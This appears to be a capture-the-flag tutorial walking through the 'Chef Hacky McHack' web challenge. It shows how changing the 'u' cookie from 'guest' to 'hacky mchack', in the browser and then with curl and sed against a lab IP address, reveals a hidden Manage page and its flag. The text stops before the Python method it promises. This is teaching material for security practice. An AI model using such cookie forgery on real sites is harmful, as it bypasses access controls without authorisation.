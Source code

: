 # Activities

## Tutorial - Chef Hacky McHack

We'll solve this task in 3 ways: from the browser, from the CLI and using Python.
That good we are!

### Virgin: From the Browser

We visit to the URL, open the Developer Tools and go over to the "Storage" tab.
There we see the server has given ass the cookie `u=guest`.

![Hacky McHack - Initial Cookie](../media/hacky-mchack-cookies.png)

Since the challenge is called "Hacky McHack" we set the cookie value to `hacky mchack`.
We notice a new tab has appeared at the top of the page or by inspecting the HTML source: **Manage** (`/manage.php`).
We click on it and get the flag.

```
<ul class="nav-menu list-unstyled">
    <li><a href="index.php" class="smoothScroll">Home</a></li>
    <li><a href="#about" class="smoothScroll">About</a></li>
    <li><a href="#portfolio" class="smoothScroll">Portfolio</a></li>
    <li><a href="#journal" class="smoothScroll">Blog</a></li>
    <li><a href="#contact" class="smoothScroll">Contact</a></li>
        <li><a href="manage.php" class="smoothScroll">Manage</a></li>
    </ul>
```

### Chad v1: From the CLI

We use our good friend `curl`.
First, we save the cookies from the initial page into a cookie jar.
```
root@kali:~# curl -c cookies.txt http://141.85.224.70:8010
[...]

root@kali:~# cat cookies.txt
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

http://141.85.224.70:8010	FALSE	/	FALSE	1656864260	u	guest
```

Now we edit the file and replace `guest` with `hacky mchack` and send a `GET` request to `/manage.php`.
```
root@kali:~# sed -i s/guest/hacky\ mchack/ cookies.txt

root@kali:~# curl -b cookies.txt $URL/manage.php
```
